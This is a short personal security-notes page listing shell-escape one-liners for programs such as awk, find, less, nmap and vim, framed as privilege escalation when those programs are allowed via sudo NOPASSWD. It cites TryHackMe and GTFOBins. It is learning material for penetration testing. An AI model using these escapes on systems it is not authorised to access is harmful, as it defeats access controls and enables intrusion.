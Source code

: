 # Shell Escapes

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via [sudo](enumerate-sudo-access.md).

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — see [Set a Shell in ViM](set-a-shell-in-vim.md)

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)

- - - -

👤 Nathan Acks  
📅 October 31, 2021
